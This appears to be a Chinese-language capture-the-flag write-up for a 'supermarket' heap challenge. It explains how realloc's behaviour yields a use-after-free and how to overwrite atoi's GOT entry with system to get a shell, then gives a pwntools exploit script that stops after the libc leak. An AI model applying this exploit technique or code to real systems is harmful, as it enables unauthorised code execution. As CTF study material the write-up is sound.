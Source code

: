> 1.对ptr进行判断，如果ptr为NULL，则函数相当于malloc(new_size),试着分配一块大小为new_size的内存，如果成功将地址返回，否则返回NULL。如果ptr不为NULL，则进入2
> 2.查看ptr是不是在堆中，如果不是的话会跑出异常错误，会发生realloc invalid pointer。如果ptr在堆中，则查看new_size大小，如果new_size大小为0，则相当于free(ptr)，讲ptr指针释放，返回NULL，如果new_size小于原大小，则ptr中的数据可能会丢失，只有new_size大小的数据会保存（这里很重要），如果size等于原大小，等于啥都没做，如果size大于原大小，则看ptr所在的位置还有没有足够的连续内存空间，如果有的话，分配更多的空间，返回的地址和ptr相同，如果没有的话，在更大的空间内查找，如果找到size大小的空间，**将旧的内容拷贝到新的内存中，把旧的内存释放掉**，则返回新地址，否则返回NULL。

就是这个把旧的内存释放，而新内存地址的指针并没有返回取代旧地址。所以我们得到了一个被释放的内存空间。这时再次申请一块内存就又把它拿到了手里。这样我们有了指向同一内存的两个指针。UAF漏洞！

接下来对漏洞进行利用，在结构体中有一个descrip的指针，修改使其指向atoi的got表，泄露libc地址。然后将其修改为system地址，传入参数“/bin/sh”。

1. 申请第一个node_1，description_size>fastbin，第二个node_2，防止chunk与top chunk合并，size随意；
2. 利用realloc，free第一个chunk_1，不要写入东西，否则会破坏chunk结构，导致下面的malloc失败。
3. 申请node_3，由于步骤2中的node_1->descrip被free，所以在unsorted bin中。chunk被切割为两部分，一部分用来存放结构体，一部分用来存放descrip。

4. 修改node_1的descrip，即改变node_3的结构，使其descrip指向atoi_got。
5. 利用list泄露libc地址。
6. 修改descrip指向system，选项输入‘/bin/sh’。get shell！

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
context.arch="amd64"

local=0
binary='./supermarket'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('220.249.52.133',47082)

elf = ELF(binary,checksec=False)
libc=ELF('./libc.so.6')
atoi_got=elf.got["atoi"]

def create(name,size,context):
	p.sendlineafter('your choice>> ','1')
	p.sendlineafter('name:',str(name))
	p.sendlineafter('price:','99')
	p.sendlineafter('descrip_size:',str(size))
	p.sendlineafter('description:',context)

def dele(name,size,context):
	p.sendlineafter('your choice>> ','5')
	p.sendlineafter('name:',str(name))
	p.sendlineafter('descrip_size:',str(size))
	p.sendlineafter('description:',context)

create(1,0x80,'ppp')
create(2,0x20,'aaa')

dele(1,0x90,'')
create(3,0x20,'bbb')
payload='3'.ljust(16,'\x00')+p32(99)+p32(0x20)+p32(atoi_got)
dele(1,0x80,payload)

p.sendlineafter('your choice>> ','3')
p.recvuntil('3: price.99, des.')
atoi_addr=u32(p.recvuntil('\n').split('\n')[0].ljust(4,'\x00'))
```